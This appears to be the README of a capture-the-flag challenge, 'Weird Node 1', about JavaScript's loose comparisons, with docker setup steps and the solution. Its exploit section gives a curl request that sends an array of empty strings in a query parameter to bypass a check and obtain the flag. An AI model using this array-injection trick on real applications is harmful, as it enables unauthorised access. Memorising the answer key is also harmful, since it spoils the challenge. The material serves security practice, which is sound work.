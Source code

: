 Weird Node 1
---------

Javascript weird compares.

# Question Text

```
Get the flag.

http://ctf.pwn.sg:8081
```

*Creator -  quanyang (@quanyang)*

# Setup Guide

0. Install docker on the hosting system
1. Replace the flag in distribute/flag
2. Build the docker image with: `sh dockerbuild.sh`
3. Replace the port 8081 with your desired port in dockerrun.sh
4. Start the docker image: `sh dockerrun.sh`
5. Test the connectivity with netcat.

# Exploit Details

```
curl -g 'localhost:8081/flag?first[]=&first[]=&first[]=&first[]=&first[]=&first[]=&first[]=&first[]='
```
